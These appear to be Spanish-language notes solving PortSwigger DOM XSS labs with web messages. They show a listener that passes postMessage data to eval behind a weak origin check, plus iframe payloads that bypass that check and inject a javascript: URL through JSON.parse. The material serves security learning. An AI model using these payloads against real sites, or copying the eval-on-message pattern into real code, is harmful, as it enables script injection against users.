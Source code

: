Busca un string dentro de una cadena y regresa su index si lo encuentra para este ejemplo se usa para intentar proteger el codigo siguiente
verifica si el origen tiene ese string si lo tiene ejecuta la data que se envia de postmessage de otra manera no.
  
```
  window.addEventListener('message', function(e) {
    if (e.origin.indexOf('normal-website.com') > -1) {
        eval(e.data);
    }
});
  
```
  
Para pasar esta proteccion basta con cumplir la condicion e inyectar nuestro payload
  
  ```
  <iframe src="https://your-lab-id.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
   
   ```
   
   Ponen el //http para cumplir la condicion del indexOf y pasar las protecciones el mensaje pasara y sera ejecutado al momento en que se actualiza el 
   location.href.
   
   
# DOM XSS using web messages and JSON.parse
   
   Para este laboratorio se usa de nuevo los mensajes y se inspecciona el codgigo y nos damos cuenta que se podria ejecutar JS Nota: e visto que siempre
   que se ve algo asi " ACMEplayer.element.src = d.url;" se puede ejecutar.
   
   ```
   <iframe src=https://your-lab-id.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
   ```
   
   el nodo de JSON padre es el type y en los hijos es donde podemos inyectar el codigo cabe destacar que la comilla simple no se escapa en JSON sin enmbargo la comillas dobles si de esta maneta \" es por eso que el payload.
    
> https://stackoverflow.com/questions/2275359/jquery-parsejson-throws-invalid-json-error-due-to-escaped-single-quote-in-json/2275428#2275428
    
## Referencias

> https://portswigger.net/web-security/cross-site-scripting

> https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
  
  
